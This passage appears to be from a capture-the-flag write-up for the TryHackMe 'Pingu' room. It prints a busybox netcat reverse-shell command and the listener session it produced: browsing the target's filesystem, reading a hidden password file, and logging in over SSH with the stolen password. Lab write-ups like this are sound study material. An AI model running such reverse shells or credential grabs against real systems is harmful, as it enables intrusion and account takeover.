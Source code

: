 ```bash
busybox nc 10.8.162.183 1337 -e sh             'https://www.revshells.com/'
```

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ nc -lvnp 1337             
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.144.132] 33006
ls
2591c98b70119fe624898b1e424b5e91.php
administrator.php
index.html
cd ..
ls
html
cd ..
ls
backups
cache
hidden
lib
local
lock
log
mail
opt
run
spool
tmp
www
cd hidden
ls
pass
cat pass
'pinguapingu'


cd home
l
ls
papa
pingu

```

## SSH

Now we have [[SSH]] access on the machine :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ ssh  pingu@10.10.144.132                      
The authenticity of host '10.10.144.132 (10.10.144.132)' can't be established.
ED25519 key fingerprint is SHA256:+hK0Xg1iyvZJUoO07v4g1UZ11QpuwY05deZS4BPEbbE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.144.132' (ED25519) to the list of known hosts.
pingu@10.10.144.132's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Mon Jan 20 14:14:47 2020
```